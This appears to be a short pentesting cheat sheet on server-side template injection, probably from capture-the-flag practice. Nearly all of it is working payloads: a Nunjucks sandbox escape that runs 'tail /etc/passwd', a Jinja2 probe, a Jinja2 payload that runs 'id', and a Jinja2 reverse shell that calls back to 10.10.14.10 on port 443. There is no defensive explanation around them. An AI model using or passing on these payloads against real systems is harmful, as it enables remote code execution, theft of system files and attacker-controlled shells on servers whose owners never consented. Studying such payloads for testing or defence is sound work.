


___

**

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine


```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```




# Python 

Given the webserver is Python, server-side template injection (SSTI) is a common flaw to look for. To check for SSTI

`{{ 7 * 7 }}`


```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

## shell 

```python
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.10/443 0>&1"').read() }}
```

Flask uses the jinja2 templating engine
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection
